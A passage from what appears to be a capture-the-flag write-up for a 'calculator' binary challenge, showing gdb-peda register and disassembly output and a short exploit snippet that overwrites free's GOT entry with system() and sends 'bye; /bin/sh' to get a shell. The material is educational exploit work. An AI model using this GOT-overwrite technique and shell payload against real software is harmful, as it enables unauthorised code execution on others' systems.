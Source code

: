 now what do we do with system() what do we overwrite, system would require an argument. how the hell do we spawn a shell?.
after short moment of rage, i decided to look back in the disassembled calculator() function.

and noticed something really weird thing.
after we are done with the program we can send "bye" command to exit from the binary.
when we send "bye" it calls free() and with argument as our input.
```
[----------------------------------registers-----------------------------------]
RAX: 0xffffff00 
RBX: 0x7fffffffdc38 --> 0x6036d0 --> 0xa3120000a657962 ('bye\n')
RCX: 0x0 
RDX: 0x6036d0 --> 0xa3120000a657962 ('bye\n')
RSI: 0x6036d3 --> 0xa3120000a ('\n')
RDI: 0x6036d0 --> 0xa3120000a657962 ('bye\n')
RBP: 0x7fffffffdc40 --> 0x78 ('x')
RSP: 0x7fffffffdc30 --> 0xa ('\n')
RIP: 0x400b41 (<calculator+619>:        call   0x400720 <free@plt>)
R8 : 0x0 
R9 : 0x7ffff7fc7500 (0x00007ffff7fc7500)
R10: 0x603260 ("bye\n9 1\n")
R11: 0x400c8e --> 0x7300757a25207465 ('et %zu')
R12: 0x603670 --> 0x0 
R13: 0x400c95 --> 0x20656854006d7573 ('sum')
R14: 0x400caa --> 0x61766e4900657962 ('bye')
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400b32 <calculator+604>:   mov    eax,0x0
   0x400b37 <calculator+609>:   call   0x400790 <__printf_chk@plt>
   0x400b3c <calculator+614>:   mov    rdi,QWORD PTR [rsp+0x8]
=> 0x400b41 <calculator+619>:   call   0x400720 <free@plt>    <================= call to free -----
   0x400b46 <calculator+624>:   mov    rax,QWORD PTR [rsp+0x28]                                    |
   0x400b4b <calculator+629>:   xor    rax,QWORD PTR fs:0x28                                       |
   0x400b54 <calculator+638>:   jne    0x400b6a <calculator+660>                                   |
   0x400b56 <calculator+640>:   add    rsp,0x30                                                    |
Guessed arguments:                                                                                 |
arg[0]: 0x6036d0 --> 0xa3120000a657962 ('bye\n')  <========================= arguments to free-----
```

you can see gdb-peda guessed the arguments passed to free() call shows that it points to the string we enter.



if we replace free() with system() and send "bye;/bin/sh"
insted of bye, we can get a shell. in then end thats what i did.

```
free = exe.got["free"]
p.sendline("set "+str(free/8)+" "+str(system))
p.recvuntil("\n> ")
p.sendline("bye; /bin/sh")
```
